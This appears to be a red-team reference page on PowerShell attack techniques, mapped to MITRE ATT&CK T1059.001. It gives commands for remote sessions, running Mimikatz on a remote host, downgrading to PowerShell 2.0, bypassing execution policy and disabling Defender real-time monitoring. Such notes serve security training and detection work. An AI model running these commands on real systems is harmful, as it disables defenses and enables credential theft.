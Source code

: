 ```yaml
---
description: MITRE ATT&CK, Execution, Technique T1059.001
---
```


# PowerShell

### Basic Usage

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session $#
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session $# -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

### Enumeration

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

This is important as if PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

### Offensive PowerShell

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```
